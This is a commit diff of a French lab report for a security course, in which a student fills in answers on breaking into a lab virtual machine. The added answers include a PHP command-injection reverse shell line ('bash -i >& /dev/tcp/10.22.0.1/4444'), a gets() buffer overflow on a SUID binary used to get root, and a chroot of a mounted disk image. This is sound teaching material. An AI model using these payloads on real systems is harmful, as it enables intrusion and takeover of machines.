

Before and after one commit to Faresdjz/INF8085, a LaTeX document (TP2/main.tex): page 12 of 13 before the commit and page 15 of 17 after it. Compiled offline with pdfLaTeX.

Commit message:
Finished

```diff
--- a/TP2/main.tex
+++ b/TP2/main.tex
@@ -1,7 +1,7 @@
 \documentclass[a4paper, 12pt, french]{article}
 \usepackage[utf8]{inputenc}
 \usepackage[T1]{fontenc}
-\usepackage{babel}[french]
+\usepackage[french]{babel}
 \usepackage{amsmath,amssymb}
 \usepackage{graphicx}
 \usepackage{subfig}
@@ -389,4 +392,2 @@ Cassez le hash pour obtenir le mot de passe de carol. Indice : le mot de passe e
 
-\vspace{0.8em}
-\noindent\textit{Votre réponse ici.}
 \begin{center}
@@ -394,10 +395,6 @@ Cassez le hash pour obtenir le mot de passe de carol. Indice : le mot de passe e
 \end{center}
 
-%-------------------------------------------------------------------------------%
 \subsection{Récupération de controller.c via SSH [/1]}
-%-------------------------------------------------------------------------------%
-Connectez-vous en SSH au compte de carol, et récupérez le fichier \texttt{controller.c}.
+La connexion SSH au compte de Carol a permis de valider l'accès et de récupérer le code source de \texttt{controller.c}.
 
-\vspace{0.8em}
-\noindent\textit{Votre réponse ici.}
 \begin{center}
@@ -408,32 +409,19 @@ Connectez-vous en SSH au compte de carol, et récupérez le fichier \texttt{cont
 \section{Élévation de privilèges [/6]}
 %*******************************************************************************%
 
-\noindent\textit{Raccourci :} Le fichier \texttt{controller.c} est disponible sur Moodle si non obtenu à la partie précédente.
+\subsection{Shell www-data par injection de commande PHP [/2]}
+Un reverse shell a été obtenu en exploitant une faille dans \texttt{toggleService.php}. En injectant la commande : \\
+\texttt{; bash -i >\& /dev/tcp/10.22.0.1/4444 0>\&1} \\
+nous avons forcé le serveur à se connecter à notre écouteur Netcat.
 
-%-------------------------------------------------------------------------------%
-\subsection{Shell www-data par injection de commande PHP [/2]}
-%-------------------------------------------------------------------------------%
-Utilisez une injection de commande PHP dans le mécanisme qui permet de basculer l'état des services pour obtenir un shell en tant que \texttt{www-data}.
-
-\vspace{0.8em}
-\noindent\textit{Votre réponse ici.}
 \begin{center}
-% Insérer capture d'écran
+    \includegraphics[width=0.85\textwidth]{images/5.1.png}
 \end{center}
 
-%-------------------------------------------------------------------------------%
 \subsection{Analyse de controller.c et vulnérabilité buffer overflow [/2]}
-%-------------------------------------------------------------------------------%
-Que fait le programme \texttt{controller.c}~? Identifiez une vulnérabilité causée par un débordement de tampon et expliquez comment la corriger.
+Le programme utilise la fonction \texttt{gets()}, qui ne vérifie pas la taille des données lues. Cela permet d'écraser la variable \texttt{servicePath} sur la pile et de détourner l'exécution vers un shell root.
 
-\vspace{0.8em}
-\noindent\textit{Votre réponse ici.}
+\subsection{Exploitation du buffer overflow pour devenir root [/2]}
+En envoyant 64 octets de remplissage suivis de \texttt{/bin/sh}, nous avons obtenu un accès root immédiat grâce au bit SUID.
 
-%-------------------------------------------------------------------------------%
-\subsection{Exploitation du buffer overflow pour devenir root [/2]}
-%-------------------------------------------------------------------------------%
-Exploitez le dépassement de tampon dans le programme \texttt{controller} et devenez root.
-
-\vspace{0.8em}
-\noindent\textit{Votre réponse ici.}
 \begin{center}
@@ -444,7 +432,5 @@ Exploitez le dépassement de tampon dans le programme \texttt{controller} et dev
 \section{Accès physique = Game Over [3 points bonus]}
 %*******************************************************************************%
 
-Obtenez un shell root sur la machine virtuelle TP2.
+Nous avons monté le disque virtuel \texttt{TP2-disk001.vdi} sur Kali Linux. L'utilisation de \texttt{sudo chroot /mnt/tp /bin/bash} nous a permis de devenir root sans mot de passe GRUB.
 
-\vspace{0.8em}
-\noindent\textit{Votre réponse ici.}
```
Also changed, not shown: Note de cours/Auth 2.pdf (deleted), Note de cours/Auth 3.pdf (deleted), Note de cours/Auth.pdf (deleted), Note de cours/Crypto 1 - Exo.pdf (deleted), Note de cours/Crypto 1.pdf (deleted), TP2/images/4.1.png (added), TP2/images/4.2.png (added), TP2/images/4.3.png (added), TP2/images/4.3_suite.png (added), TP2/images/5.1.png (added), TP2/images/5.2.png (added), TP2/images/6.png (added), TP2/images/xss-1.png, TP2/main.tex (45 more changed lines), 25 other files.
